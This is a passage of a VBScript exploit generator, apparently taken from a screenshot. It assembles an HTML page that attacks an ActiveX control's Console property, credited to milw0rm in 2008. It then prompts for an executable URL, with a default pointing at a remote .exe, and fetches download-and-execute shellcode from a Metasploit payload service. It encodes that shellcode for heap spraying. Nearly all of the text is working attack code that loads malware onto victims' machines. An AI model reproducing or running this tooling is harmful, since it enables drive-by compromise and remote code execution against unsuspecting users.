 b=b+"" & vbcrlf
b=b+"  var m = '';" & vbcrlf
b=b+"" & vbcrlf
b=b+"  m = obj.Console;" & vbcrlf
b=b+"  obj.Console = buf;" & vbcrlf
b=b+"  obj.Console = m;" & vbcrlf
b=b+"  " & vbcrlf
b=b+"  m = obj.Console;" & vbcrlf
b=b+"  obj.Console = buf;" & vbcrlf
b=b+"  obj.Console = m;" & vbcrlf
b=b+"  " & vbcrlf
b=b+"  " & vbcrlf
b=b+" } " & vbcrlf
b=b+" " & vbcrlf
b=b+" </script>" & vbcrlf
b=b+" " & vbcrlf
b=b+" " & vbcrlf
b=b+"</head>" & vbcrlf
b=b+" <body onload=""JavaScript: return Check();"">" & vbcrlf
b=b+"  <object classid=""clsid:2F542A2E-EDC9-4BF7-8CB1-87C9919F7F93"" id=""obj"">" & vbcrlf
b=b+"    Unable to create object" & vbcrlf
b=b+"  </object>" & vbcrlf
b=b+"" & vbcrlf
b=b+" </body>" & vbcrlf
b=b+"</html>" & vbcrlf
b=b+"" & vbcrlf
b=b+"# milw0rm.com [2008-04-01]" & vbcrlf

Exeurl = InputBox( "请输入exe的地址：", "输入", "http://www.haiyangtop.net/333.exe" )
url = "http://metasploit.com:55555/PAYLOADS?parent=GLOB%280x2b94a2879c50%29&MODULE=win32_downloadexec&MODE=GENERATE&OPT_URL="&URLEncoding(Exeurl)&"&MaxSize=&BadChars=0x00+&ENCODER=Msf%3A%3AEncoder%3A%3AAlpha2&ACTION=Generate+Payload"
Body = getHTTPPage(url)
Set Re = New RegExp
Re.Pattern = "($shellcode =[sS]+</div></pre>)"
Set Matches = Re.Execute(Body)
If Matches.Count>0 Then Body = Matches(0).value
code=Trim(Replace(Replace(replace(Replace(Replace(Replace(Replace(Body,"$shellcode =",""),Chr(34),""),Chr(13),""),";",""),"</div></pre>",""),Chr(10),""),".",""))

function replaceregex(str)
set regex=new regExp
regex.pattern="\x(..)\x(..)"
regex.IgnoreCase=true
regex.global=true
matches=regex.replace(str,"%u$2$1")
replaceregex=matches
end Function

Function getHTTPPage(Path)
 t = GetBody(Path)
 getHTTPPage = BytesToBstr(t, "GB2312")
End Function
